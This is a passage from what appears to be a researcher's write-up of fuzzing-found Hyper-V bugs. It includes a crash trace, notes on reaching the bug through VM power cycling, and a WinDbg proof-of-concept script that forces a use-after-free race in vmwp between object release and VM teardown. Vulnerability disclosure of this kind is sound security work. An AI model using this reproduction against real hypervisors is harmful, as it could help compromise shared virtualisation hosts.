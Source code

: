 ```
00007ff7`88312d5d 488b07          mov     rax,qword ptr [rdi] ds:00000210`a424bfb0=????????????????
```
  - How did I fuzzed it: automation .. essentially can be seen as a by-product while fuzzing at scale. Well.. what I realized fuzzing is, and why automation is an essential part of your fuzzing efforts, not only as automation, will be in the scope of the next post. Meanwhile to sum it up, lucky me :)

  - How to reach to fuzz : 
    + [Hyper-V Cmdlets](https://docs.microsoft.com/en-us/powershell/module/hyper-v/?view=windowsserver2022-ps) yep that is right, Azure attack is not Pwn2Own attack, and for example turn on/off is something that attacker can do
    + though this is always on the edge, about turn off bugs for example check [February 23, 2021 Revision](https://www.microsoft.com/en-us/msrc/bounty-hyper-v)
    
  - POC
    + example how to make Race Conditions better demonstrate for repro
    + second part of poc is turn on+off VM
    
```C
.childdbg 1 
g 

.logopen sharablebuggy.txt; 

r @$t1 = 0
bp vmwp!VirtualMachine::InitInterceptHandlers+0x154 "r @$t1 = @rax+60; g"

bp vmwp!Vml::VmSharableObject::DecrementUserCount+0x59 ".if(@$t1==@rdi+10){.echo RACER_1_FREEZED; bd 1 2; be 4; dqs rdi; r rip = vmwp!Vml::VmSharableObject::DecrementUserCount-2; eb rip eb fe}.else{}; g"

bp vmwp!Vml::VmSharableObject::DecrementUserCount-2 ".echo RACER_1_RESUMED___UAF_TRIGGER; r rip = vmwp!Vml::VmSharableObject::DecrementUserCount+0x59; g"

bu vmwp!VirtualMachine::Teardown+0x1d0-5 ".echo RACER_2_TEARDOWN_FREEZED; bd 3; r rip = vmwp!VirtualMachine::Teardown-2; eb rip eb fe; g"

bp vmwp!VirtualMachine::Teardown-2 ".echo RACER_2_TEARDOWN_RESUMED; r rip = vmwp!VirtualMachine::Teardown+0x1d0-5; g"

bp vmwp!VirtualMachine::Teardown+0x1d0 ".echo RACER_2_TEARDOWN_FINISHED___UAF_GO; be 2; g"

g

```
    

### *Few highlights to note :*
> all of them RCE + UAF, to be honest most of my bugs are races due to the nature of my fuzzing, but Hyper-V is not an eve's garden for data format bugs anyway.

> bugs were not at fuzzing obvious target logic (files) path, but at the upper level (work items / packet handling)

